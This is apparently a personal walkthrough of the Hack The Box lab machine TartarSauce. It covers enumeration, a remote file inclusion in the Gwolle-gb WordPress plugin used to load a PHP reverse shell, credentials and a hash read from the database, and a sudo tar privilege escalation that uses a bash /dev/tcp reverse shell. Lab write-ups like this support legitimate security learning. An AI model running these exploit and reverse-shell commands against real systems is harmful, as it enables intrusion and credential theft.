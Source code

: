 Machine: https://app.hackthebox.com/machines/138
IP: 10.10.10.88

# Enumeration

Port 80:

/robots.txt (Rabbit holes)

```
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

/webservices/monstra-3.0.4/robots.txt (Rabbit holes)

```
User-agent: *
Disallow: /admin/
Disallow: /engine/
Disallow: /libraries/
Disallow: /plugins/
```

/webservices/wp

`Wordpress website`

/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

```
== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D
```

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html

Vulnerable to RFI

# Exploitation

Attacker

`python3 -m http.server 80`

and curl to our machine

`curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.12/`

We see that it is trying to get wp-load.php

```bash
root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [28/May/2018 15:10:22] "GET /wp-load.php HTTP/1.0" 404 -
```

Exploit:

Create wp-load.php file that contains reverse shell

wp-load.php:

PHP Reverse shell pentest monkey

Start a listener and curl again

`nc -lvnp 1234`

# Post-Exploitation

## Shell as `www-data`:

/var/www/html/webservices/wp/wp-config.php

```bash
/ ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
```

View local port

```bash
www-data@TartarSauce:/var/www/html/webservices/wp$ ss -lntp
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      80     127.0.0.1:3306                     *:*
```

Query in mysql shell

```bash
wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |
```

```bash
User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Tar has this option where extracted file can be used to execute

`--to-command=COMMAND   pipe extracted files to another program`

Exploit:

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.12/1234 0>&1' > a.sh

tar -cvf a.tar a.sh

sudo -u onuma tar -xvf a.tar --to-command /bin/bash
```

Start a listener to get shell

`nc -lnvp 1234`

## Shell as `onuma`:

user.txt 61581cbcd480d2e87fb9ae0772308f7b

Stabalize shell with python3

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

ctrl+z

stty raw -echo;fg

enter

enter
```

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html

To exploit this script, I’ll take advantage of two things: the sleep, and the recursive diff. During the sleep, I’ll unpack the archive, replace one of the files with a link to /root/root.txt, and re-archive it. Then when the script opens the archive and runs the diff, the resulting file will be different, and the contents of both files will end up in the log file.

root.txt 929442365ff3876f94729e440c8a1217

# Beyond Root

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html

